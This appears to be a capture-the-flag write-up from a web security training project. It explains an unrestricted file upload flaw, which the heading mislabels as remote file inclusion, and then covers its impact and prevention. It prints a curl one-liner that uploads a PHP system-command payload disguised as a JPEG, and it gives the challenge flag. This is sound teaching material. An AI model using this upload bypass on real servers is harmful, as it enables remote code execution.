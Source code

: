 # REMOTE_FILE_INCLUSION 

## 🏴 Flag
```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

## 📌 Extract

Page: [http://{IP}/index.php?page=upload](http://{IP}/index.php?page=upload)  
Inspect this form:

```html
<form enctype="multipart/form-data" action="#" method="POST">
	<input type="hidden" name="MAX_FILE_SIZE" value="100000">
	Choose an image to upload:
	<br>
	<input name="uploaded" type="file"><br>
	<br>
	<input type="submit" name="Upload" value="Upload">
</form>
```

This HTML form allows file uploads via a POST request, focus on:  
`<input name="uploaded" type="file">`: File selection field.  
`<input type="submit" name="Upload" value="Upload">`: Upload button.

> Testing injection of a php file

```sh
echo "<?php system('ls'); ?>" | \
curl -F "Upload=Upload" \
-F "uploaded=@-;type=image/jpeg" "http://10.13.248.105/index.php?page=upload" | \
grep "The flag is :"
```

Sends an HTTP POST request to the website's upload page :
- `echo "<?php system('ls'); ?>"` : Create a php script.
- `-F "Upload=Upload"`: Simulates a submit button.
- `-F "uploaded=@-;type=image/jpeg"`:
	- `@-` means the file is taken from standard input (from the previous echo).
	- `type=image/jpeg` attempts to trick the server into believing it's an image.
- `grep "The flag is :”` filters the response.

## 🎯 Use

**Unrestricted File Upload** is a vulnerability where a website allows users to **upload files without properly validating** heir type or content. This can allow an attacker to upload malicious files (such as scripts) and **execute** them on the server.

- **Remote code execution:** Uploading a PHP file or executable script to take control of the server or run commands.  

- **Unauthorized data access:** Malicious files in public directories can be used to steal sensitive data like databases or config files.  

- **Privilege escalation:** Exploiting the vulnerability to gain admin privileges or access restricted server areas.  

- **🎣 Phishing or redirection attacks:** Malicious files executed in the user's browser can redirect them to malicious sites or steal sensitive information.

## 🔒 Prevention

1. **Strict file validation:** Allow only safe file types (e.g., images, documents) and reject executables (e.g., .php, .exe).  

2. **Rename uploaded files:** Rename uploaded files to random names to block execution.  

3. **File content detection:** Verify file content matches its type (e.g., ensure .jpg is an image, not a script).  

4. **Disable execution:** Prevent execution in upload directories (e.g., use .htaccess or similar settings).  

5. **Limit permissions:** Set read/write-only permissions, not execute.  

6. **Security tools:** Use antivirus or file scanners.

## 📚 Documentation

[wikipedia.org (Remote_File_Inclusion)](https://fr.wikipedia.org/wiki/Remote_File_Inclusion)  
[vaadata.com (exploitation-dune-faille-lfi)](https://www.vaadata.com/blog/fr/exploitation-dune-faille-lfi-local-file-inclusion-et-bonnes-pratiques-securite/)  
[chocapikk.com (faille_upload)](https://chocapikk.com/posts/2023/faille_upload/)

### 📖 [Home page](https://github.com/hugo-bourgeon/darkly#README)

